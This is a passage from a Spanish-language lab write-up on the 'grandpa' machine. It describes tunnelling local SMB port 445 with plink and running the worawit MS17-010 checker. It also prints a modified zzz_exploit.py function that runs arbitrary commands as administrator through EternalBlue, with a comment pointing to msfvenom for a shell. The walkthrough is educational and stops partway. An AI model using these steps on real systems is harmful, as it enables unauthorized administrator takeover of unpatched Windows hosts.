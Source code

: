 La salida del comando anterior no arrojo nuevamente un sistema operativo bastante antiguo por lo que es muy probable de que este asociada a alguna vulnerabilidad critica.

Pero quiero adelantarme de que si utilizamos la herramienta `windows exploit suggester` para encontrar exploits que funcionen para esta máquina todos fallan incluso hay uno que te da una shell como administrador pero la sesión muere casi instantáneamente.

Así que continuemos.

Mientras estaba enumerando la máquina encontré que tenia varios puertos locales abiertos entre ellos el 445.

![](https://lh6.googleusercontent.com/iw7p-dDUaJXzKuhzhcHicC9iP-GiPM_L4TEkNMHPeIW2AZnBWUulUQhAMFXZE3M1vV-nmZKpTJJQof3-IsqfjuFlmj1UvKcCjI6bN5Cy08BWwDfVzX7_31SUSodY7DbVz955F3Ej)

Esto me causo algo de curiosidad y recordé algo importante que me enseño mi maestro s4vitar y era que siempre que tengamos una versión de sistema operativo antigua y un puerto samba probar el exploit de eternalblue, ya que las probabilidades de éxito son demasiado altas.

El puerto 445 esta disponible  de manera local pero lo que nosotros podemos hacer es crear una regla de port forwarding para poder tunelizar mi puerto 445 con el puerto 445 de la máquina `grandpa`.

Para ello inicio mi servicio SSH.

```console
intrusionz3r0@kali:~$ sudo service ssh start
 ```

Después paso el binario `plink.exe` a la máquina con un servidor samba.

![](https://lh4.googleusercontent.com/LUpNLOIAamZJ3cFQwHndKADEF592Mv0MVV-pdyaacUo8tIu2V_TTHFi2-ZZYlSIGGts2eyq3rVSQmZUQ57b7BcktNBA78_no4G1ai0mTcQU1L9w8B-ffW8ymJbi06K4Y_JNrpWZ6)

Creamos la regla de port forwarding y ejecutamos `crackmapexec` para verificar de que la regla se ha creado correctamente.

![](https://lh4.googleusercontent.com/bYzSuHSS_KSA2kc3vKiVSc_x79Eu5gRoU9waEDsNqiA2Nxy5j_IFYH7MGygx8N7PEE0STM26tUpV3zabKzjopOdhXQgsoY2kBs9rorx4cMIx5DNYj9w3QAqpCzCtbIHBsPSkKgFy)

Como puedes notar utilice crackmapexec para analizar mi `localhost` y muestra que somos la máquina `grandpa` por lo que la regla de port forwarding se creo correctamente.

# Explotación de eternalblue.

El repositorio que usaremos para la explotación sera el siguiente: [MS17-010](https://github.com/worawit/MS17-010).

Lo descargamos y lanzamos el checker.

![](https://lh4.googleusercontent.com/54jfoAQJhyBnqblsWrvB_Pp-jKtdnsAHuwH3Z0KOs3pXE3_oBUtd40qXfeMz626xZptAm9dI45trb1TD6cO7oh5VgVqCO4DvSnuBEgLgQr6umyQvv-gyIojC1MUaNvicYy2iXU6J)

Como se puede observar tenemos algunos pipes en `ok` por lo que la máquina es vulnerable a eternalblue.

Usaremos el `zzz_exploit.py` para poder ejecutar comandos como administrador.

Primero modificamos el `zzz_exploit.py` de la siguiente manera:

```bash
def smb_pwn(conn, arch):
        #smbConn = conn.get_smbconnection()

        #print('creating file c:\\pwned.txt on the target')
        #tid2 = smbConn.connectTree('C$')
        #fid2 = smbConn.createFile(tid2, '/pwned.txt')
        #smbConn.closeFile(tid2, fid2)
        #smbConn.disconnectTree(tid2)

        #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
        service_exec(conn, r'cmd /c {comando}')
        # Note: there are many methods to get shell over SMB admin session
        # a simple method to get shell (but easily to be detected by AV) is
        # executing binary generated by "msfvenom -f exe-service ..."
```